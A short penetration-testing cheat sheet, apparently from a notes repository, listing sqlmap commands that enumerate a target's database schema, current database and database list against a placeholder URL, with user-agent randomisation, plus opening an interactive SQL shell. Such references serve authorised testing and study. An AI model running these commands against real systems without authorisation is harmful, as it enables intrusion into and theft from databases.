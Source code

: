# 03 - Databases

Search Tag: #sqlmap #enumeration-and-discovery

## 3.1 - Automated

- Enumerate database schema.

```
$ sqlmap -u "<URL>" --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "<URL>" --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u "<URL>" --random-agent --current-db
```

- Enumerate available databases.

```
$ sqlmap -u "<URL>" --random-agent --dbs
```

## 3.2 - Manual

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SHOW DATABASES()
```